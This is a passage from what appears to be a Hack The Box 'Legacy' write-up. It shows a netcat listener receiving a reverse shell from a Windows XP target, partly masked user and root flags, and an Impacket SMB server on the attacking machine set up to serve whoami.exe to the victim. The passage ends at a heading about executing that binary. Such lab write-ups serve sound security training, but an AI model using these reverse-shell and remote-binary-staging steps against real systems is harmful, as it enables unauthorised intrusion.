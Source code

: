 As the exploit finishes we get a call back on our listener:

```shell
cfx:  ~/Documents/htb/legacy
→ nc -lvnp 443
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from 10.10.10.4.
Ncat: Connection from 10.10.10.4:1028.
Microsoft Windows XP [Version 5.1.2600]
(C) Copyright 1985-2001 Microsoft Corp.

C:\WINDOWS\system32>whoami
whoami
'whoami' is not recognized as an internal or external command,
operable program or batch file.

C:\Documents and Settings\john\Desktop>type user.txt
type user.txt
e69af0e4f443de*****************f

C:\Documents and Settings\Administrator\Desktop>type root.txt
type root.txt
993442d258b0e0*****************3
```

The fact that we could grab both the flag indicates that we are running as `NT AUTHORITY\SYSTEM`, but how do we confirm whether we are running as system since Windows XP doesn't have `whoami` binary.

We can use `whoami.exe` which is by default available on kali OS inside `/usr/share/windows-binaries` and host it on our SMB server using `Impacket's Smbserver` and run it on the remote host:

### Sharing SMB folder from attacking machine

```shell
cfx:  /usr/share/windows-binaries
→ smbserver.py cfx `pwd`
Impacket v0.9.21 - Copyright 2020 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
[*] Incoming connection (10.10.10.4,1039)
[*] AUTHENTICATE_MESSAGE (\,LEGACY)
[*] User LEGACY\ authenticated successfully
[*] :::00::4141414141414141
```

#### Executing `whomai.exe` binary on target machine:
